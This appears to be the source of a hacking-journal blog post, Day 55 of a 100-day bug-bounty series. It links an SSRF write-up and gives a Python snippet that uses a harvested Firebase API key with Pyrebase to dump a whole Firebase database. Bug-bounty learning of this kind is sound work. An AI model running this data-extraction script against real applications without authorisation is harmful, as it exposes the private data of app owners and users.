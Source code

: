 ```yaml
---
title:  "Day 55/100 Hack and Improvement"
date: 2020-06-24
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day55/header.jpg"
---
```


## Tales of a full SSRF bug

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). Here is the link of the [article](https://medium.com/@mase289/a-tale-of-my-first-ever-full-ssrf-bug-4fe71a76e9c4).

## Pyrebase that Fires Firebase

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). This tip has been gotten from [Ashish Kunwar](https://twitter.com/D0rkerDevil). in order to extract valuable information once the API has been gathered, you can run the following python3 code.

### First install Pyrebase

```python
pip3 install pyrebase 
python3 -m pip install pyrebase
```

### Time to extract some data!
```python
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "http://domain.firebaseapp.com",
  "databaseURL": "http://domain.firebaseio.com",
  "storageBucket":"http://domain.appspot.com",
}
firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())
```

